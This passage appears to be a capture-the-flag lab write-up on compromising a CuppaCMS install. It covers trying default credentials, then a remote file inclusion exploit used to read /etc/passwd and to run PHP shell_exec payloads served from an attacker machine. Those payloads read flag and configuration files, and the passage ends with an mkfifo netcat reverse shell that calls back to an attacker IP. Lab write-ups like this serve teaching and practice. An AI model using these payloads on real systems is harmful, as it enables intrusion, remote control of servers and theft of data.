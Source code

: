 ### Navigate to the found /administrator file
We find "cuppaCMS". Miles, in his previous text file explains it needs works. Try the CuppaCMS default login detail.

`admin:admin`

This fails; and after attempting to brute in vain, I sought out an exploit. There is a known [RFI exploit for Cuppa CMS](https://www.exploit-db.com/exploits/25971). 

We exploit the above, and navigate to `http://10.10.121.225/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../etc/passwd`

And pull some system files. We can also execute shell code from another server.

So we create a Python server on Attacker machine.

Exploit with 
```
http://10.10.195.116/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.8.219:8000/shell.txt
```

Pull data with 
```

<?php
echo var_dump(shell_exec("ls /home/milesdyson"));
echo var_dump(shell_exec("cat /home/milesdyson/user.txt"));
echo var_dump(shell_exec("whoami"));
echo var_dump(shell_exec("ls -lah /home/milesdyson/"));
echo var_dump(shell_exec("cat /root/root.txt"));
echo var_dump(shell_exec("ls -lah /etc"));
echo var_dump(shell_exec("ls -lah /home"));
echo var_dump(shell_exec("cat ../Configuration.php"));

?>

```

## 5. What is the root flag?

### Make a persisted mkfifo reverse shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.4.4 4444 >/tmp/f
```

### Run on web-browser after running metasploit listener
`http://10.10.231.188/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.8.219:8000/shell.php` 

This can be ran from your python server through the RFi vuln, using a php script containing:
```
<?php 

echo var_dump(
    shell_exec(
        "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.11.8.219 4444 
         > /tmp/f
"));

?>
```
